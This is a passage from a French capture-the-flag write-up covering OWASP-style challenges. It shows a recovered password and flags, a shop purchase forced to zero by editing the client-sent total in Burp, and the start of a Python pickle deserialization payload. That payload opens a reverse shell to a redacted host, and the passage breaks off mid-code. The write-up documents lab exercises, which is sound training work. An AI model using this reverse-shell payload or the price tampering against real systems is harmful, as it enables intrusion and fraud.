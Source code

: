 Nous avons 10 seconde pour entree les informations

La page nous informe que
```Your new password is: e94dad5484aef023```

```
Welcome john.
This application is under heavy development and testing for version 1.0.
Therefore most of its features are not available yet!

Your Flag:
FINCTF{1D3NT1F1C4T10N_F41LUR3S_73656372657473}
```

## Flag 8: Insecure Design

### Information:

- http:REDACTED
- guest:guest
- cvv == 911

![alt text](img/shop.png)

Nous avons donc un magasin, et je ne sais pas pour vous mais j'ai toujours voulu avoir un morceau de nuage ou un pizza laptop

![alt text](img/cart.png)

Donc, le total de nos emplette.. ben c'est le client qui l'envoie.. `Insecure Design` indeed!

J'edite le tout avec burp
```
total=0&cvv=911
```

```
Congratulations! Here is your flag: FINCTF{1NS3CUR3_D3SIGN_73656372657473}
```

## Flag 9: Software Integrity Failures

### Information:
- http://REDACTED
- guest:guest

![alt text](img/mermaid.png)

On peu upload un fichier, je lui envoie donc du garbage
Et.. je fais planter l'application on m'acceuil avec  `Werkzeug powered traceback interpreter.` 
Dans la stack trace je vois que l'application utilise `pickle`
![alt text](img/pickle.png)

Et bien aucun probleme! 
```python
import pickle
import base64

class ReverseShell:
    def __init__(self):
        self.subject = '''
import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("REDACTED", REDACTED))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
```
